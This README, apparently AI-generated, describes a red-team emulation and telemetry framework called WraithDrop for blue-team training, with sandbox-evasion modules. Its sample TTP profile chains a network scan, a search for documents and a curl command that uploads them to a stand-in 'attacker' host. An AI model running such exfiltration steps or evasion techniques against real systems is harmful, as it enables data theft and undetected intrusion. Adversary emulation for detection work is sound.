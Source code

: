# placeholder for README.md
Here is a full README.md for your WraithDrop project:

# ⚔️ WraithDrop

**WraithDrop** is a stealth-oriented Red Team simulation and telemetry framework built for ethical cybersecurity research, blue team training, and adversary emulation in controlled environments.

> _“Like a shadow in the wire — it watches, it strikes, and it vanishes.”_

---

## 🚩 Key Features

- 🧠 **TTP Profiles** – YAML-based Tactical Technique Procedure chains
- 📡 **Telemetry Logging** – Encrypted local and remote telemetry collection
- 🛡️ **Evasion Modules** – Sandbox detection, fingerprinting, randomized delays
- 📊 **Live Dashboard** – Real-time WebSocket log monitoring with host grouping
- 🔐 **AES Encryption** – End-to-end secure event transmission
- 🧩 **Modular Design** – Easy to extend with custom techniques or behaviors
- 🧪 **Simulated Payloads** – No actual malware used, fully ethical

---

## 📁 Project Structure

wraithdrop/
├── server/ # Flask + SocketIO telemetry receiver and dashboard
│ ├── app.py # Entry point for running dashboard/API
│ ├── telemetry.py # API endpoints and log handling
│ └── templates/
│ └── index.html # Dashboard frontend
├── utils/ # Encryption, fingerprinting, and helpers
│ ├── aes_encrypt.py # AES encrypt/decrypt utilities
│ └── fingerprint.py # Host fingerprint logic
├── scripts/
│ └── telemetry_sim.py # Basic event simulator script
├── ttp_profiles/ # YAML TTP definitions
│ └── example.yml
├── logs/ # Encrypted and raw telemetry logs
├── requirements.txt # Python dependencies
└── README.md


---

## 🚀 Quick Start

### 1. Clone the repo
```bash
git clone https://github.com/yourusername/wraithdrop.git
cd wraithdrop

2. Create and activate a virtual environment

python3 -m venv venv
source venv/bin/activate

3. Install dependencies

pip install -r requirements.txt

4. Start the dashboard server

python3 server/app.py

The dashboard will run at: http://localhost:7000
📡 Simulate Telemetry Events

Run the basic simulator:

python3 scripts/telemetry_sim.py

You can customize the simulation by editing telemetry_sim.py or creating TTP YAML files in ttp_profiles/.
🔐 AES Encryption

All telemetry data is encrypted using AES before being sent over the wire. You can modify the key and IV in utils/aes_encrypt.py to suit your security model.
🌐 Live Dashboard

The real-time dashboard listens for encrypted POST requests and displays parsed logs grouped by host. It uses Flask + Socket.IO to stream new events every 2 seconds.

    Incoming event payloads are automatically decrypted and logged.

📂 Sample TTP YAML (Coming Soon)

profile: data_exfil
steps:
  - action: scan_network
    command: nmap -sS 192.168.1.0/24
  - action: find_docs
    command: find /home -name '*.docx'
  - action: exfiltrate
    command: curl -F @docs.zip http://attacker/exfil

Support for loading and executing these is part of the planned roadmap.
🧠 Use Cases

    Blue team alert tuning and log correlation

    Red team pre-attack behavior simulation

    SOC training labs

    Custom TTP emulation for detection engineering

    Honeypot decoy behavior injection

⚠️ Legal Disclaimer

WraithDrop is intended for educational and ethical use only.
Do not deploy or simulate unauthorized actions on systems you do not own or have explicit permission to test.
🛠️ Roadmap

Real-time telemetry dashboard

Encrypted telemetry transport

Basic evasion modules

Full TTP YAML executor

CLI runner with triggers/delays

Atomic Red Team YAML support

    Exportable PDF/HTML log reports

👤 Author

Master_Ancestor
Microbiology undergrad | Cybersecurity Enthusiast | Code Conjurer
🔬🛡️💻
📜 License

MIT License – feel free to fork, extend, or contribute.
✨ Like what you see?

Leave a ⭐ on GitHub – it feeds the Wraith.
